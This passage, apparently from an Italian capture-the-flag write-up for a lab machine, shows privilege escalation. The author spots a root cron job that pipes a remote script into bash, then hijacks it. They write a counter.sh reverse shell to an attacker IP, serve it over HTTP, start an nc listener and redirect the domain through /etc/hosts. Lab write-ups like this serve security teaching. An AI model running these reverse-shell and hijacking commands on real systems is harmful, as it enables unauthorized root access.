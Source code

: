 ```
python3 -m http.server 8080
```

Ora, scarica lo script dal computer di destinazione.

```
cd /tmp
```

```
wget http://10.14.99.134:8080/pspy64
```

```
chmod +x pspy64
```

```
./pspy64
```

ho scoperto un cronjob configurato per scaricare ed eseguire uno script shell come root.

Il cronjob recuperava lo script della shell da un server remoto utilizzando il comando:

```
2025/05/23 10:22:27 CMD: UID=0     PID=1      | /sbin/init
2025/05/23 10:23:01 CMD: UID=0     PID=27196  | bash 
2025/05/23 10:23:01 CMD: UID=0     PID=27195  | curl mkingdom.thm:85/app/castle/application/counter.sh 
2025/05/23 10:23:01 CMD: UID=0     PID=27194  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
2025/05/23 10:23:01 CMD: UID=0     PID=27193  | CRON 
```




Creiamo un percorso `/app/castle/application/` (mkdir)

Creiamo il nostro counter.sh malevolo
```
nano counter.sh
```
```
#!/bin/bash  
bash -i >& /dev/tcp/10.14.99.134/1212 0>&1
```
avviamo un nostro server a monte di  `/app/castle/application/`
```
python3 -m http.server 85
```
mettiamoci intanto in ascolto da un altro terminale (tempo di modificare il file host sulla vittima)
```
nc -lvnp 1212
```
su macchina vittima modifichiamo /etc/hosts per risolvere mkingdom.thm sul nostro IP locale attaccante
